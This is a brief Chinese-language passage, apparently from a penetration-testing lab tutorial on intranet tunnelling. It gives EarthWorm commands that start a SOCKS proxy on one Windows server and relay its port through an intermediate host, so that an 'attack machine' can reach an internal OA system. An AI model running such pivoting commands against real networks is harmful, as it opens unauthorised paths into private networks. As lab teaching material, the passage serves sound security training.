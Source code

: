 ```
server2008-02执行命令，该命令使用 EarthWorm 工具在本地机器上启动一个 SOCKS 代理服务器，监听本地 5555 端口，允许客户端通过该端口进行 SOCKS 代理访问。
ew_for_Win.exe -s ssocksd -l 5555
```

![image-20241021003534066](内网隧道代理技术/image-20241021003534066.png)	

```
server2008-01执行命令，该命令通过 LCX Slave 模式，将内网机器 192.168.60.150 上的 5555 端口流量通过中继服务器 192.168.15.1 转发到外部的 4444 端口，实现了内网穿透和端口转发。
ew_for_Win.exe -s lcx_slave -d 192.168.15.1 -e 4444 -f 192.168.60.150 -g 5555
```

![image-20241021003926823](内网隧道代理技术/image-20241021003926823.png)	

```
添加代理。
```

![image-20241021004008126](内网隧道代理技术/image-20241021004008126.png)	

```
于是win10攻击机即可访问内网OA系统。
```
